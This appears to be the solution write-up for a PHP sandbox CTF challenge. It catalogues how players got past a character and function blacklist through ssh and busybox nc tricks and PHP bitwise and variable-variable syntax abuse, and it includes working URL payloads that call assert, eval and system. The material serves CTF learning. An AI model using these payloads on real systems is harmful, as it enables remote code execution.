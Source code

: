 ![Hall Of Fame](hof.png)
# URL
[l4w.pw/🤔/](http://l4w.pw/🤔/)

# Type
PHP CTF-style challenge.

How to construct command following the rules.

Trick to run weird command or abusing PHP syntax.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...

I left backstick, to see amazing tricks from you guys.

All of them can be found at: [writeup](writeup)

There are serveral solutions:
### Run multiple commands which does following steps:
    * Create a temporary file containing chunks (by using: printf/echo/...)
    * Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
    * See nyan/orange/kaibro/pablo sol.
### Abusing ssh / busybox
It ... surprised me 
    * ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
    * ```die(`bus\yb\ox nc 0:888\8`);```
    * Using `ssh` and blackslash (See `huyphan` sol)
### PHP syntax abusing
By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
    * `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
    * Also see kad96/fa_boy/tsu solutions.
    * `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)
